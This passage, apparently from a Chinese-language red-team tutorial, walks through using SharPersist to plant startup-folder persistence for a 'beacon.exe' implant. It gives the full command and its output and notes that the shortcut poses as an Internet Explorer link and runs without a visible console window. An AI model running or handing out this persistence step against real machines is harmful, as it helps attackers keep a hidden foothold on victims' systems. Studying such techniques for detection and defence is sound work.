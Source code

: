 SharPersist 创建启动项，-f 是指定文件名。

```plaintext
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t startupfolder -c "C:\Users\123\Desktop\beacon.exe" -f filename -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: File Name: filename


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\123\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\filename.lnk
[*] INFO: SHA256 Hash of LNK file: 03202ADEF2ABA136221A5788A24EC22FB8010A5B802F879C8B12B73DADF17F6D
```

进入 `C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 发现是在当前用户启动目录下创建 IE 快捷方式，运行方式还是最小化，经过测试，常规、最小化、最大化都不会弹出命令行窗口。

![SharPersist 在启动目录创建的快捷方式.png](assets/1698895515-4300f57b829140ec15166f84576d6a63.png)

这个图标还可以在任务管理器中体现。

![SharPersist 快捷方式在任务管理器运行状态.png](assets/1698895515-e9735ce7aaa7b52157523f354ec48c3f.png)
